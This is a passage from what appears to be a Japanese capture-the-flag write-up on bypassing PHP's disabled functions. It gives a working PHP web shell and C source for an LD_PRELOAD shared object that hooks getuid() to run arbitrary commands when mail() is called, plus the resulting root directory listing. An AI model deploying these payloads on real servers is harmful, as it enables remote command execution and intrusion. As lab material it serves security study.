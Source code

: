 問題ではmailの中で`execve("/bin/sh", ["sh", "-c", "/usr/sbin/sendmail -t -i "], ...)`
というシステムコールが呼ばれている。このような実装がされているので`/bin/sh`の動作を変えることが出来る。(どういうこと？)

#### shell.waniの内容を変更
```php
<?php
move_uploaded_file($_FILES['evil']['tmp_name'], '/tmp/evil.so');
putenv('LD_PRELOAD=/tmp/evil.so');
putenv("_evilcmd=ls -lah /");
mail('a','a','a');
echo file_get_contents('/tmp/_0utput.txt');
?>
```
#### カスタムしたsoファイル
```c
cat evil.c
/* compile: gcc -Wall -fPIC -shared -o evil.so evil.c -ldl */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload(char *cmd) {
 char buf[512];
 strcpy(buf, cmd);
 strcat(buf, " > /tmp/_0utput.txt");
 system(buf);
}

// mailでこのgetuid()が呼ばれているからこの関数を書き換えている？
int getuid() {
 char *cmd;
 if (getenv("LD_PRELOAD") == NULL) { return 0; }
 unsetenv("LD_PRELOAD");
 if ((cmd = getenv("_evilcmd")) != NULL) {
   payload(cmd);
 }
 return 1;
}
```

これでようやく`system("ls -lah /")`ができる。実行結果は下のようになっている。flagとget_flagがあるので
ルートディレクトリに移動し、get_flagを実行するとflagが手に入りそう。
```
// ls -lah /

total 104K
drwxr-xr-x   1 root root 4.0K Jan 20 08:25 .
drwxr-xr-x   1 root root 4.0K Jan 20 08:25 ..
drwxr-xr-x   1 root root 4.0K Jan  9 15:45 bin
drwxr-xr-x   2 root root 4.0K Apr 24  2018 boot
drwxr-xr-x   5 root root  360 Jan 20 08:25 dev
drwxr-xr-x   1 root root 4.0K Jan 20 08:25 etc
-r--------   1 root root   38 Jan 10 15:10 flag
-rwsr-xr-x   1 root root  17K Jan 10 15:10 get_flag
...
...
```
